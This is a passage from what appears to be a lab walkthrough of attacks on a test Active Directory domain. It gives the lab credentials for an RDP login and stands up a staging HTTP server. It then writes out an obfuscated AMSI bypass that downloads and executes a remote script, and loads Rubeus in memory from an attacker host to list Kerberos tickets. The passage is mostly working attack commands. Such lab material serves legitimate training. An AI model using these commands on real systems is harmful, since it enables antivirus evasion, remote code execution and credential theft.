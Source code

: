 
```
xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor!' /v:192.168.56.11 /cert:ignore
```

> On the previous step we already own the north domain, let’s say we got eddard password.  
> Eddard’s password came in cleartext when you run donPapi on Winterfell because there is a schedule task on this user

- From there we will bypass AMSI and launch Rubeus in memory (just like in part8)

> Off course we could stop the defender anti-virus on the server, but on a real Pentest you didn’t want to do that on your customer servers.

- Prepare our server containing Rubeus.exe and our AMSI bypass.
```
python3 -m http.server 8080
```


- On the RDP session bypass AMSI :
```
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)(new-object system.net.webclient).downloadstring('http://192.168.56.118:8000/amsi_rmouse.txt')|IEX
```


- Now launch Rubeus in memory with execute assembly.
- First we will list the available tickets :
```
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.118:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);[Rubeus.Program]::MainString("triage");
```